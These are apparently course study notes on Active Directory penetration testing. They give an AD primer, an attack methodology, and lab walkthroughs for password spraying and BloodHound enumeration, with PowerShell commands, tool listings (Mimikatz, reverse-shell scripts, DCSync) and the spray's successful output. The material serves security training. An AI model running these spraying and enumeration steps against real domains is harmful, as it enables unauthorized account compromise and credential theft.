



# Active Directory Penetration Testing

## Course Introduction

### Course Topic Overview

- Active Directory Primer
- Active Directory Penetration Testing Methodology
- Active Directory Enumeration
	- BloodHound
	- PowerView
- Active Directory Privilege Escalation
	- AS-REP Roasting
	- Kerberoasting
- Active Directory Lateral Movement
	- Pass-the-Hash
	- Pass-the-Ticket
- Active Directory Persistence
	- Silver Ticket
	- Golden Ticket

### Prerequisites

- Basic Understanding of Computer Networking
	- Knowledge of IP addresses, subnetting, routing, and network devices (switches, routers, firewalls).
	- Familiarity with common network protocols (TCP, UDP, HTTP, DNS, etc.).
- Fundamentals of Operating Systems
	- Basic knowledge of Windows and Linux operating systems, including their command-line interfaces.
	- Understanding of system processes, file systems, and user permissions.
- Experience with Exploitation and Post-Exploitation
	- Knowledge and experience in exploitation and post-exploitation on Windows.
	- Ability to target Windows specific ports, protocols and services (SMB, RDP, WinRM, etc.).
	- Ability to identify and exploit vulnerabilities/misconfigurations in Windows systems.
- Experience with Penetration Testing Tools
	- Some experience using common penetration testing tools (e.g. Metasploit, Nmap, Wireshark).
	- Knowledge and understanding of the penetration testing methodology and lifecycle.

### Learning Objectives

- Active Directory Fundamentals
	Understand Active Directory Architecture: Gain a comprehensive understanding of Active Directory components, including domains, domain controllers, forests, trust relationships, OUs and Group Policy Objects (GPOs).
- Active Directory Penetration Testing Methodology & Process
	Gain a comprehensive understanding of the Active Directory penetration testing methodology, including the systematic approach to assessing and exploiting vulnerabilities within AD environments.
- Active Directory Enumeration
	Conduct reconnaissance and enumeration of Active Directory environments using tools like PowerView and BloodHound to gather information about users, groups, permissions, and trust relationships.
- Active Directory Privilege Escalation
	Demonstrate proficiency in leveraging Active Directory privilege escalation techniques like Kerberoasting and AS-REP roasting to escalate privileges and gain unauthorized access to sensitive resources.
- Active Directory Privilege Lateral Movement
	Demonstrate proficiency in moving laterally within AD environments by leveraging techniques like Pass-the-Hash and Pass-the-Ticket attacks.
- Active Directory Persistence
	Demonstrate proficiency in leveraging persistence techniques like Silver Ticket and Golden Ticket attacks in order to maintain access to compromised systems within Active Directory environments.

---

## Active Directory Primer

### Introduction to Active Directory - Video

#### Introduction to Active Directory

**Active Directory (AD)** is a directory service developed by Microsoft for Windows networks. It serves as a central repository for managing information about network resources like users, computers, and groups. AD provides services related to identity and access management.

#### Active Directory Use Cases

**User Authentication and Authorization**
Active Directory <u>acts as a central authentication and authorization system</u>. Users log in to network resources using their AD credentials, with access permissions managed by <u>roles and group memberships</u>.

**Resource Management**
Administrators use AD <u>to manage network resources such as computers, printers, and shared folders</u>. Centralized management simplifies tasks like <u>software deployment, configuration, and access control</u>.

**Group Policy Management**
AD lets administrators <u>enforce security policies, configurations, and settings across all domain-joined devices</u> through Group Policies, ensuring <u>consistency</u> and security compliance.

**Directory Services**
AD <u>organizes objects within the network hierarchically</u>, making resource management easier. This structure includes <u>domains, trees, and forests</u>, enabling scalable network infrastructure.

#### Active Directory Components

**Domains**
A domain <u>groups network objects (users, computers, resources)</u> sharing a common directory database and security policies. Domains are the core units in an AD environment.

**Domain Controllers (DCs)**
DCs <u>are servers managing access within a domain</u>. They store a replica of the AD database, authenticate logins, enforce security policies, and replicate changes across DCs.

**Forest**
A forest <u>is a collection of one or more domains</u> sharing a common schema, configuration, and global catalog. It represents the top-level container in an AD hierarchy, defining trust relationships' boundaries.

**Organizational Units (OUs)**
OUs are <u>containers</u> within a domain to <u>organize and manage objects</u>. They allow for delegated administrative tasks, Group Policy application, and control access permissions <u>at a more granular level than domains</u>.

**Global Catalog (GC)**
The Global Catalog is a distributed data repository <u>containing a partial replica of all objects in the forest</u>. It <u>facilitates cross-domain searches and resource location across the entire AD forest</u>.

**Trust Relationships**
Trust relationships <u>extend authentication and authorization between domains or forests</u>. Trusts allow users in one domain to access resources in another while maintaining security.

### Understanding Active Directory - Example Use Case

#### Managing Small Networks

Let’s start off with a simple example, Imagine yourself deploying and managing <u>a small network consisting of less than 10 Windows computers</u>. In such a small network, setting up, configuring, deploying and managing each computer will be relatively easy.

<u>You can manually log onto each computer, create user accounts for the employee(s) using the computer, make configuration changes and install/remove software</u>. If a computer stops working or if an employee encounters an issue, you will be able to easily identify and resolve the issue given the small number of computers being managed as well as your intricate knowledge of every system and it’s configuration.

#### Example Use Case: Foo Bank Inc

Now let's consider a more realistic scenario.

You have been hired as a system administrator for <u>a medium-sized financial institution</u>, called "Foo Bank Inc", which has <u>around 50 employees, more than 100 computers and operates in from 2 office locations</u>.

At this point, the previous manual approach will be unfeasible. Could you possibly manage every computer individually within the network, manually set policies for each user across the network, and offer on-site support for everyone? The answer is probably no. This is precisely where Active Directory (AD) becomes essential.

<u>Here's how Active Directory (AD) can be used for centralization within this organization</u>.

A Windows domain is a collection of computers, servers, users, and devices that are grouped together and managed as a single entity within a network environment.

In the context of Microsoft's Windows operating system, a domain is established using Active Directory (AD), which serves as the central directory service for authentication, authorization, and resource management.

##### Authentication & Authorization

**Single Sign-On (SSO):** With Active Directory, employees at Foo Bank Inc. can <u>log in to their computers using a single set of credentials (username and password)</u>. These credentials are verified centrally by Active Directory, providing a seamless and secure authentication experience.

**Role-Based Access Control (RBAC):** AD allows the IT administrators at Foo Bank Inc. to <u>define roles and groups based on job functions or departments</u>. For example, there can be groups like "Accounting", "Marketing", and "Developers". Each group is assigned <u>specific access permissions</u> to network resources, ensuring that employees have access only to the resources relevant to their roles.

##### Resource Management

**Centralized User and Computer Management:** Active Directory provides a central repository for storing information about users, computers, and other network resources. IT administrators can use AD to <u>create, modify, and delete user accounts, manage group memberships, and join computers to the domain</u>, all from a single management console.

**Software Deployment and Updates:** Foo Bank Inc. can use <u>Group Policy Objects (GPOs)</u> within Active Directory to <u>deploy software applications, enforce software configurations, and distribute updates</u> to all domain-joined computers automatically. This centralized management simplifies software maintenance and ensures <u>consistency</u> across the organization.

##### Group Policy Management

**Security Policies:** AD allows administrators to define and <u>enforce security policies</u> across the entire organization using Group Policy. For example, they can enforce password complexity requirements, enable BitLocker encryption on company laptops, and restrict access to sensitive files and folders.

**Desktop Configurations:** With Group Policy, administrators can <u>standardize</u> desktop <u>configurations</u>, such as desktop backgrounds, screensaver settings, and firewall rules, ensuring a consistent user experience across all computers in the organization.

##### Directory Services

**Organizational Structure:** Foo Bank Inc. can use Organizational Units (OUs) within Active Directory to organize users, computers, and other objects based on departments, teams, or geographical locations. This <u>hierarchical structure</u> makes it easier to manage and delegate administrative tasks within the organization.

**Scalability:** As Foo Bank Inc. grows, Active Directory can <u>scale</u> to accommodate the increasing number of users, computers, and resources. New departments or branch offices can be added to the existing Active Directory infrastructure, <u>maintaining centralized management and control</u>.

### Users, Groups & Computers - Video

Security principals refer to <u>entities in the Windows security infrastructure</u> that can be assigned permissions to access various resources within a Windows environment.
These entities can represent <u>users, groups, computers, or services<u>, and they play a central role in controlling access to resources through security descriptors.

#### Domain Users

Users represent individuals interacting with the network. <u>Each user has a unique AD account identified by a username and password</u>. Users use their credentials to log in to computers, access network resources, and perform various tasks.
Administrators can manage user accounts by creating, modifying, or deleting them using Active Directory management tools. They can also assign permissions, group memberships, and other settings to control user access to network resources.

#### Groups

<u>Groups are collections of user accounts, computer accounts, or other groups</u> within Active Directory. They provide a convenient way to manage access permissions and apply settings to multiple users or computers simultaneously.

There are two main types of groups in Active Directory:
1. **Security Groups**. <u>Security groups are used to manage access permissions to network resources</u>. Users can be added to security groups, and permissions can be assigned to these groups to control resource access.
2. **Distribution Groups**. Distribution groups are used for sending email messages to a group of recipients. They do not have security-related permissions and are primarily used for email distribution purposes.

#### Security Groups

| Security Group    | Function                                                                                                 |
|-------------------|----------------------------------------------------------------------------------------------------------|
| Domain Admins     | Full administrative control over the entire domain.                                                       |
| Enterprise Admins | Administrative privileges over all domains in the forest.                                                 |
| Server Operators  | Manage domain controllers and member servers.                                                             |
| <u>Backup Operators</u>  | Perform backup and restore operations on domain controllers and servers.                                  |
| <u>Account Operators</u> | Manage user accounts, groups, and computer accounts.                                                     |
| Domain Users      | Individual accounts representing network users.                                                           |
| Domain Computers  | Devices joined to the domain (workstations, servers, etc.).                                               |
| Domain Controllers | Servers managing AD authentication, authorization, and database maintenance.                             |

#### Computers

<u>Computers represent devices (workstations, servers, laptops, and other network devices) joined to the AD domain</u>. Each computer within the domain has a corresponding computer account in Active Directory, identified by a unique name. When a computer joins the domain, a secure trust relationship is established between the computer and the domain, allowing the computer to authenticate users and access network resources.
Administrators can manage computer accounts by adding, removing, or modifying them using Active Directory management tools.

### Organizational Units (OUs) - Video

#### Organizational Units (OUs)

<u>OUs are containers in an AD domain used to organize and manage objects</u> like user accounts, computers, and groups. OUs are used to organize objects <u>in a logical manner</u> based on administrative, geographical, or departmental criteria. They provide a hierarchical structure for administrative delegation, Group Policy permissions, and other configurations application to multiple objects at once.

#### Difference Between OUs & Security Groups

- **OUs**: Used <u>for organizing and managing AD objects</u>, create a hierarchical structure.
- **Security Groups**: Used <u>for access control and permissions</u>, can be organized in a flat structure.

### Active Directory Authentication - Video

AD authentication verifies user and computer identities to access network resources within an Active Directory domain. The most common method is using a username and password.

#### Authentication Protocols

AD supports several <u>authentication protocols</u> ensuring secure communication and user authentication within an AD domain environment.
These protocols play a crucial role in ensuring the confidentiality, integrity, and authenticity of authentication exchanges:
- **Kerberos**
- **NTLM**

#### Kerberos

<u>Kerberos is the primary AD authentication protocol</u>.

**How it works:**
- <u>When a user attempts to log in, their client computer requests a Ticket Granting Ticket (TGT) from the Key Distribution Center (KDC), which is typically a domain controller</u>.
- <u>The domain controller verifies the user's credentials and issues a TGT if authentication is successful</u>.
- <u>The TGT is then used to obtain Service Tickets for accessing specific network resources</u>.

**Features:**
- Mutual authentication: Both the client and the server verify each other's identities.
- <u>Single Sign-On (SSO)</u>: Users authenticate once and can access multiple resources without re-entering credentials.
- Ticket-based: <u>Authentication exchanges rely on encrypted tickets</u>, reducing the risk of credential theft.



#### NTLM

<u>NTLM is an older authentication protocol used by Windows systems for backward compatibility</u>.

**How it works:**
- <u>When a user attempts to log in, their client computer sends a hashed version of their password to the server</u>.
- The server compares the hash to the stored hash of the user's password.
- If the hashes match, authentication is successful.

**Features:**
- Compatibility: NTLM is supported by older Windows systems and applications.
- Simplicity: NTLM authentication does not require the complexity of Kerberos, making it easier to implement in certain environments.
- Security: NTLM has <u>security limitations</u> compared to Kerberos, including susceptibility to pass-the-hash attacks and lack of mutual authentication.



### Trees, Forests & Trusts - Video

#### Domains

Domains group and manage network objects, serving as administrative, replication, and authentication boundaries.

#### Trees

A domain tree is <u>a hierarchy of domains</u> sharing a contiguous namespace and creating two-way transitive trusts.

#### Forests

A forest is <u>a collection of domain trees</u> sharing a common schema, configuration, global catalog, and trust relationships.

#### Trusts

Trusts provide a mechanism for users <u>to gain access to resources in another domain</u>.

Types of Trusts:
1. **Directional**: Trust direction flows from trusting to trusted domain.
2. **Transitive**: Trust relationship is extended beyond a two-domain trust to include other trusted domains.

Domains in a forest trust each other, and trusts can extend outside the forest.

---

## Active Directory Penetration Testing Methodology

### Active Directory Pentesting Methodology - Video

Active Directory (AD) penetration testing assesses the security of an organization's AD infrastructure. It simulates real-world attacks to find vulnerabilities, weaknesses, and misconfigurations.



#### Testing Phases

1. Initial Compromise
2. Host Reconnaissance
3. Domain Enumeration
4. Local Privilege Escalation
5. Administrator Enumeration
6. Lateral Movement
7. Domain Admin Privileges
8. Cross Trust Attacks
9. Domain Persistence
10. Exfiltration

#### Breaching AD

Techniques:
- **Password Spraying**: Attempting to authenticate with common or leaked passwords across multiple accounts.
- **Brute Force Attacks**: Using automated tools to guess passwords for accounts with weak or default passwords.
- **Phishing**: Sending convincing emails to trick users into revealing credentials or executing malicious attachments.
- **Poisoning**: LLMNR/NBT-NS poisoning to intercept network traffic and capture credentials.

#### AD Enumeration

Techniques:
- **PowerView**: <u>Enumerate AD objects, attributes, and permissions</u> to find security weaknesses.
- **BloodHound**: <u>Visualize and analyze AD permissions, group memberships, and attack paths</u>.
- **LDAP Enumeration**: Query the AD LDAP service to <u>get detailed info about users, groups, computers, and OUs</u>.

#### Privilege Escalation

Techniques:
- **Kerberoasting**: It is a Kerberos authentication attack <u>targeting service accounts to get their encrypted passwords (SPNs) and cracking them offline</u>.
- **AS-REP Roasting**: It is a Kerberos authentication attack <u>targeting user accounts with the "Do not require Kerberos preauthentication" attribute set to obtain their encrypted passwords</u>.

#### Lateral Movement

Techniques:
- **Pass-the-Hash**: <u>Using stolen password hashes to authenticate and access other systems</u> without plaintext passwords.
- **Pass-the-Ticket (PtT)**: <u>Using stolen Kerberos tickets (TGTs or service tickets) to authenticate to other systems or services</u> without knowing the user's plaintext password.

#### Persistence

Techniques:
- **Silver Ticket**: <u>Forging Kerberos service tickets to impersonate any service or computer account</u>.
- **Golden Ticket**: <u>Forging Kerberos tickets to impersonate any user and access any resource within the AD environment</u>.

#### References & Resources

- [Orange Cyberdefense mindmaps](https://orange-cyberdefense.github.io/ocd-mindmaps/img/pentest_ad_dark_2023_02.svg) ⭐
- [Active Directory Exploitation Cheat Sheet](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet). ⭐

---

## Active Directory Enumeration

### Password Spraying - Video

Password spraying is an attack technique where an attacker tries to compromise user accounts by <u>attempting to authenticate with a list of common or likely passwords</u>. This can be done against internet-facing systems or within a network to expand access.

Common targets for password spraying include:
- VPN servers
- web-based email applications
- single sign-on providers.

Unlike credential stuffing, which uses previously compromised passwords, password spraying <u>tries common passwords against many users</u>.
Attackers often structure their attacks <u>to avoid detection by trying only one password per user or waiting between attempts</u>.

#### Lab Environment

In this lab environment, GUI access to a Domain User called Research/Student on a Windows Server 2012 machine, which serves as your workstation. This workstation contains vulnerabilities that are susceptible to password spraying attacks - a common method for guessing passwords that often yield results due to the habitual use of simple and predictable passwords within the Active Directory setup.

Your task is to perform a password spraying attack aiming to identify weak passwords, which could potentially provide you with escalated privileges, even up to the level of domain admin access.

**Objective**: Execute a password spraying attack to discover weak passwords within the Active Directory.

Below are the tasks that you need to perform:
1. Identify all the users in the domain.
2. Initiate the Password Spraying Attack.
3. Execution and Verification of the Password Spraying Attack.

#### Lab Solution

`powershell -ep bypass`: to bypass the execution policy to allow running scripts.

`cd C:\Tools`, `Import-Module .\PowerView.ps1`: to import the [PowerView module](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1).

`Get-DomainUser | Select-Object -ExpandProperty cn | Out-File "$HOME\Desktop\domain_users.txt"`: to enumerate the domain users, extracting their common names in a file.
(Using PowerView to get a list of all domain users and saving their common names to a text file on the desktop for later use.)

`cd C:\Tools\Scripts\credentials`, `Import-Module .\DomainPasswordSpray.ps1`:  to import the [DomainPasswordSpray module](https://github.com/dafthack/DomainPasswordSpray/blob/master/DomainPasswordSpray.ps1).

`Invoke-DomainPasswordSpray -UserList "$HOME\Desktop\domain_users.txt" -Password "123456" -Verbose`: to perform a password spraying attack.
(Initiating a password spraying attack using the list of domain users and the common password "123456", while displaying detailed output to monitor the process.)

### Password Spraying - Lab

#### Lab Environment

In this lab environment, GUI access to a Domain User called Research/Student on a Windows Server 2012 machine, which serves as your workstation. This workstation contains vulnerabilities that are susceptible to password spraying attacks - a common method for guessing passwords that often yield results due to the habitual use of simple and predictable passwords within the Active Directory setup.

Your task is to perform a password spraying attack aiming to identify weak passwords, which could potentially provide you with escalated privileges, even up to the level of domain admin access.

**Objective**: Execute a password spraying attack to discover weak passwords within the Active Directory.

Below are the tasks that you need to perform:
1. Identify all the users in the domain.
2. Initiate the Password Spraying Attack.
3. Execution and Verification of the Password Spraying Attack.

The best tools for this lab are:
- PowerView.ps1
- DomainPasswordSpray.ps1

#### Lab Execution

`powershell -ep bypass`

`cd C:\Tools`, `ls`:
```
    Directory: C:\Tools

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        9/22/2021  12:12 PM                ADModule
d-----        9/22/2021  12:12 PM                hashcat
d-----        9/22/2021  12:13 PM                kekeo
d-----        9/22/2021  12:13 PM                kekeo_one
d-----        9/22/2021  12:13 PM                kerberoast-Python2
d-----        9/22/2021  12:13 PM                kerberoast-Python3
d-----        9/22/2021  12:13 PM                Nishang
d-----        9/22/2021  12:13 PM                PowerShell-Suite
d-----        9/22/2021  12:13 PM                PowerShell_IPv4NetworkScanner
d-----        9/22/2021  12:13 PM                Scripts
-a----        9/22/2021  12:12 PM          83225 10k-worst-pass.txt
-a----        9/22/2021  12:12 PM         558046 ADACLScan.ps1
-a----        9/22/2021  12:12 PM         199168 Akagi64.exe
-a----        9/22/2021  12:12 PM         506793 ASREPRoast-master.zip
-a----        9/22/2021  12:12 PM          14690 doc.chm
-a----        9/22/2021  12:12 PM           1318 encoded.txt
-a----        9/22/2021  12:12 PM           4814 encodedcommand.txt
-a----        9/22/2021  12:12 PM           6325 Execute-Command-MSSQL.ps1
-a----        9/22/2021  12:12 PM           9693 Find-PSServiceAccounts.ps1
-a----        9/22/2021  12:12 PM           2126 Find-WMILocalAdminAccess.ps1
-a----        9/22/2021  12:12 PM        5961778 HeidiSQL_9.4_Portable.zip
-a----        9/22/2021  12:12 PM        2501632 hfs.exe
-a----        9/22/2021  12:12 PM           4722 Invoke-Encode.ps1
-a----        9/22/2021  12:12 PM        3190829 Invoke-Mimikatz.ps1
-a----        9/22/2021  12:12 PM           4339 Invoke-PowerShellTcp.ps1
-a----        9/22/2021  12:12 PM            985 Invoke-PowerShellTcpOneLine_443.ps1
-a----        9/22/2021  12:12 PM            985 Invoke-PowerShellTcpOneLine_444.ps1
-a----        9/22/2021  12:12 PM          94961 Invoke-TokenManipulation.ps1
-a----        9/22/2021  12:12 PM       65376163 johnTheRipper.zip
-a----        9/22/2021  12:12 PM        1123514 kekeo.zip
-a----        9/22/2021  12:12 PM         453532 kekeo_one.zip
-a----        9/22/2021  12:12 PM        1253993 mimikatz.zip
-a----        9/22/2021  12:12 PM         111892 Netcat.zip
-a----        9/22/2021  12:12 PM          19502 Out-CHM.ps1
-a----        9/22/2021  12:12 PM          37641 powercat.ps1
-a----        9/22/2021  12:12 PM          35822 Powermad.zip
-a----        9/22/2021  12:12 PM              0 PowerSploit.zip
-a----        9/22/2021  12:12 PM         351421 PowerUp.ps1
-a----        9/22/2021  12:12 PM        1181811 PowerUpSQL.ps1
-a----        9/22/2021  12:12 PM       17902620 PowerUpSQL.zip
-a----        9/22/2021  12:12 PM         769757 PowerView.ps1 ←
-a----        9/22/2021  12:12 PM         790661 PowerView_dev.ps1
-a----        9/22/2021  12:12 PM        1078672 PsExec64.exe
-a----        9/22/2021  12:12 PM           2418 reverse.bat
-a----        9/22/2021  12:12 PM         348672 rotten.exe
-a----        9/22/2021  12:12 PM         454144 Rubeus.exe
-a----        9/22/2021  12:12 PM           8967 Set-DCShadowPermissions.ps1
-a----        9/22/2021  12:12 PM         736256 SharpView.exe
-a----        9/22/2021  12:12 PM         103925 subinacl.zip
-a----        9/22/2021  12:12 PM       44493091 SysinternalsSuite.zip
```

`Import-Module .\PowerView.ps1`

 1. **Identify all the users in the domain.**
 
`Get-Domain`:
```
Forest                  : SECURITY.local
DomainControllers       : {prod.research.SECURITY.local}
Children                : {}
DomainMode              : Windows2012R2Domain
DomainModeLevel         : 6
Parent                  : SECURITY.local
PdcRoleOwner            : prod.research.SECURITY.local
RidRoleOwner            : prod.research.SECURITY.local
InfrastructureRoleOwner : prod.research.SECURITY.local
Name                    : research.SECURITY.local ←
```

`Get-DomainUser | Select-Object -ExpandProperty cn`:
```
Administrator ←
Guest
krbtgt
groupmanager
student ←
```

`Get-DomainUser | Select-Object -ExpandProperty cn | Out-File "$HOME\Desktop\domain_users.txt"`

In the command above, `Get-DomainUser` fetches a list of all users within the domain. `Select-Object -ExpandProperty cn` is used to expand the `cn` (common name) property of each user object, which generally represents the username.

2. **Initiate the Password Spraying Attack.**

`cd C:\Tools\Scripts\credentials`, `ls`:
```
    Directory: C:\Tools\Scripts\credentials

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        9/22/2021  12:13 PM          18289 DomainPasswordSpray.ps1 ←
-a----        9/22/2021  12:13 PM          14608 dumpCredStore.ps1
-a----        9/22/2021  12:13 PM           6993 Get-LAPSPasswords.ps1
-a----        9/22/2021  12:13 PM          20431 Get-VaultCredential.ps1
-a----        9/22/2021  12:13 PM         454047 Invoke-CredentialInjection.ps1
-a----        9/22/2021  12:13 PM        1192836 Invoke-DCSync.ps1
-a----        9/22/2021  12:13 PM          34954 Invoke-InternalMonologue.ps1
-a----        9/22/2021  12:13 PM          46818 Invoke-Kerberoast.ps1
-a----        9/22/2021  12:13 PM        3190829 Invoke-Mimikatz.ps1
-a----        9/22/2021  12:13 PM          16980 Invoke-NTLMExtract.ps1
-a----        9/22/2021  12:13 PM          26491 Invoke-PowerDump.ps1
-a----        9/22/2021  12:13 PM        1057331 Invoke-Rubeus.ps1
-a----        9/22/2021  12:13 PM          39496 Invoke-SessionGopher.ps1
-a----        9/22/2021  12:13 PM          26071 Invoke-SharpSecDump.ps1
-a----        9/22/2021  12:13 PM          93837 Invoke-TokenManipulation.ps1
```

`Import-Module .\DomainPasswordSpray.ps1`

[DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray) is a highly effective tool coded in PowerShell specifically designed to execute a password spray attack against users within a domain. By default, it can automatically generate a user list from the domain, but it also allows for a custom user list input, which we will utilize in our task.

 3. **Execution and Verification of the Password Spraying Attack.**
 
`Invoke-DomainPasswordSpray -UserList "$HOME\Desktop\domain_users.txt" -Password "123456" -Verbose`:
```
[*] Using C:\Users\student\Desktop\domain_users.txt as userlist to spray with
[!] Warning: Users will not be checked for lockout threshold.
[*] The domain password policy observation window is set to 30 minutes.
[*] Setting a 30 minute wait in between sprays.

Confirm Password Spray
Are you sure you want to perform a password spray against 6 accounts?
[Y] Yes  [N] No  [?] Help (default is "Y"): Y ←
[*] Password spraying has begun with 1 passwords ←
[*] This might take a while depending on the total number of users
[*] Now trying password 123456 against 6 users. Current time is 1:49 PM ←
[*] Writing successes to
[*] 1 of 6 users tested
[*] 2 of 6 users tested
[*] 3 of 6 users tested
[*] 4 of 6 users tested
[*] 5 of 6 users tested
[+] SUCCESS! User:Johnny Password:123456 ←
[*] 6 of 6 users tested
[*] Password spraying is complete
```

The command above initiates the password spraying attack. `-UserList .\users.txt` specifies our custom list of user accounts and `-Password "123456"` denotes the password to test on each account. The `-Verbose` flag is used to provide detailed output during the process.

Password spraying attacks can often trigger account lockouts if too many attempts are made in a short period. Therefore, tools like DomainPasswordSpray are designed to automatically pause after a specific number of attempts to avoid triggering account lockouts.

### BloodHound - Video

<u>Active Directory (AD) reconnaissance</u> is crucial for assessing AD security. It involves <u>gathering information</u> to identify potential vulnerabilities and weaknesses. BloodHound is a powerful tool for this purpose.

**BloodHound** is a JavaScript web application that <u>employs graph theory to uncover hidden relationships in an AD or Azure environment</u>.
Attackers can identify complex attack paths, while defenders can find and mitigate these paths. BloodHound helps both blue and red teams understand privilege relationships in AD or Azure.

#### Lab Environment

In this lab environment, you will be provided with GUI access to a Windows machine (2012). This machine will serve as your attacker machine.
Your task in this lab is to enumerate the Active Directory environment using BloodHound.

#### Lab Solution

`powershell -ep bypass`: to bypass the execution policy to allow running scripts.

`cd C:\Tools\BloodHound\BloodHound\resources\app\Collectors`, `Import-Module .\SharpHound.ps1`: to import the [SharpHound module](https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.ps1).

`Invoke-BloodHound -CollectionMethod All`: to collect all the AD data (computers, users, groups, GPOs, OUs) needed for BloodHound analysis.
(Running SharpHound with the collection method set to "All" to gather comprehensive data on the Active Directory environment, including information on computers, users, groups, Group Policy Objects, and Organizational Units.)

Once the data is collected, we can open the BloodHound GUI application and upload the collected zip file.
(After the data collection is complete, the collected data is typically saved as a zip file. This file can then be uploaded to the BloodHound GUI for analysis.)

In the BloodHound Analysis tab, we will find pre-built analytics queries to identify attack paths, privileges, and trust relationships within the AD environment.
(Using the BloodHound GUI, you can run pre-built queries to analyze the collected data and identify potential attack paths, privilege escalations, and trust relationships within the Active Directory environment, providing valuable insights for security assessments and attack planning.)

#### Useful Follow-Up Operations

- Identify and Exploit Privileged Accounts
	- Use BloodHound's pre-built queries to <u>find accounts with elevated privileges</u> (e.g., Domain Admins).
	- Check if it's possible to exploit these accounts to gain elevated access.

- Analyze and Exploit Trust Relationships
	- <u>Identify trust relationships between domains</u>. These relationships can offer attack paths between different domains.
	- Use this information to plan further attack moves.

- Identify Potential Attack Paths
	- Use queries like "Shortest Path to Domain Admins" to <u>identify attack paths</u>.
	- Plan and verify if lateral movements can be performed to reach high-privilege accounts.

- Evaluate and Exploit Delegation Vulnerabilities
	- <u>Identify users and computers with configured delegations</u>.
	- Check if these delegations can be <u>exploited for pass-the-ticket attacks</u> or other lateral movement techniques.

- Investigate Interesting GPOs (Group Policy Objects)
	- Use queries to <u>find GPOs applying interesting security configurations</u> or that could be exploited.
	- Verify if GPOs can be modified to execute arbitrary code or change security configurations.

- Audit Write Permissions
	- Use BloodHound to <u>identify where you have write permissions on users, groups, GPOs, or OUs</u>.
	- Exploit these permissions to gain further access or modify configurations.

### BloodHound - Lab

#### Lab Environment

In this lab environment, you will be provided with GUI access to a Windows machine (2012). This machine will serve as your attacker machine. Your task in this lab is to enumerate the Active Directory environment using BloodHound.

**Objective**: Perform Active Directory enumeration using BloodHound and answer the following questions.

Below are the tasks that you need to perform:
1. Find all <u>Domain Admins</u> and their SID's.
2. Find all <u>Kerberoastable accounts</u>.
3. Find <u>AS-REP Roastable users</u>.
4. Can ROXANNE_SULLIVAN perform a <u>DCSync attack</u> on the current domain?
5. Which Kerberoastable user is a <u>member of a high valued group - "Account Operators"</u>?
6. Find the <u>members of the "Backup Operators" group</u>.
7. Find the group membership of a user named "CHADWICK_YORK".
8. To what OU is the "NewCompPolicy2" GPO linked to?
9. Find the <u>shortest path to Domain Admins</u> from a Kerberoastable user "BEATRIZ_MATHEWS".
10. Find all the <u>reachable high value targets</u> from the "CR-NOWAYIAMT-DISTLIST1" group.
11. List the <u>outbound object control</u> for "HELENE_CARPENTER".

The following credentials may be useful:
- Username: "neo4j"
- Password: "Password@123".

The best tools for this lab are:
- PowerShell
- SharpHound
- BloodHound.

**Note:** All the tools are present in the `C:\Tools` directory.

#### Lab Execution

`powershell -ep bypass`

`cd C:\Tools\BloodHound\BloodHound\resources\app\Collectors`, `ls`:
```
    Directory: C:\Tools\BloodHound\BloodHound\resources\app\Collectors

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        6/12/2023   4:57 AM                DebugBuilds
-a----        6/12/2023   4:57 AM            231 AzureHound.md
-a----        6/12/2023   4:57 AM        1046528 SharpHound.exe
-a----        6/12/2023   4:57 AM        1308766 SharpHound.ps1 ←
```

